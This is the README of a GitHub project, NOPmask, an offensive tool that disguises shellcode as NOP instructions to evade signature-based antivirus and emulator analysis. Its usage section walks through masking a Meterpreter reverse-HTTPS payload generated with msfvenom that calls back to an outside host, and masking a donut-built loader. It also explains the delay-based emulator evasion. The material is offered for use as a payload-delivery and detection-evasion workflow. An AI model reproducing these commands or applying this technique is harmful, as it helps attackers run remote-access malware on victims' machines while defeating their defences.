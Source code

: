# NOPmask v1.0
██████████████████████████████████████████████
█▄─▀█▄─▄█─▄▄─█▄─▄▄─█▄─▀█▀─▄██▀▄─██─▄▄▄▄█▄─█─▄█
██─█▄▀─██─██─██─▄▄▄██─█▄█─███─▀─██▄▄▄▄─██─▄▀██
▀▄▄▄▀▀▄▄▀▄▄▄▄▀▄▄▄▀▀▀▄▄▄▀▄▄▄▀▄▄▀▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀

Shellcode obfuscation utility to evade signature-based detection and emulator-driven analysis.

---

## Features

- Encrypts shellcode to appear like benign NOP instructions.
- Only decrypts and executes shellcode if running on real machine.
- Works with any operating system that runs on the AMD64 or i386 architecture.

---

## Installation

Clone the repository:

```bash
git clone https://github.com/whoamiamleo/NOPmask
cd NOPmask
```

Install dependencies:
```bash
pip install -r requirements.txt
```

---

## Usage
```console
usage: NOPmask.py [-h] -a {amd64,i386} -i INPUT -o OUTPUT -f {base64,binary}

options:
  -h, --help                        show this help message and exit
  -a, --arch {amd64,i386}           target CPU architecture
  -i, --input INPUT                 path to input file
  -o, --output OUTPUT               path to output file
  -f, --format {base64,binary}      format of output file
```

Basic usage example:
```bash
python NOPmask.py -a amd64 -i shellcode.bin -o masked_shellcode.bin -f binary
```

Example of using with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw -o raw_shellcode.bin
python NOPmask.py -a amd64 -i raw_shellcode.bin -o masked_shellcode.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_shellcode.bin -f C -v shellcode
```

Example of using with donut:
```bash
donut.exe -a 2 -i payload.dll -o loader.bin
python NOPmask.py -a amd64 -i loader.bin -o masked_loader.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_loader.bin -f C -v shellcode
```

### Warnings

1. The decryption stub alters the memory space that the shellcode is executed within, and therefore the memory space allocated for the shellcode must have Read/Write/Execution permissions.
2. The emulation evasion technique employed here exploits the fact that emulators are not patient, they will try to rush the emulation to not let the user wait, so please allow up to a minute for your shellcode to execute.

---

## Attribution

Written by Leopold von Niebelschuetz-Godlewski

[https://github.com/whoamiamleo/NOPmask](https://github.com/whoamiamleo/NOPmask)

Licensed under the MIT License.

If you use NOPmask in your projects, a link back or mention is appreciated!

---

## Contributing
Contributions, issues, and feature requests are welcome!
Feel free to check the [issues](https://github.com/whoamiamleo/NOPmask/issues) page or submit a pull request.

---

## License
This project is licensed under the MIT License — see the [LICENSE](https://raw.githubusercontent.com/whoamiamleo/NOPmask/main/LICENSE) file for details.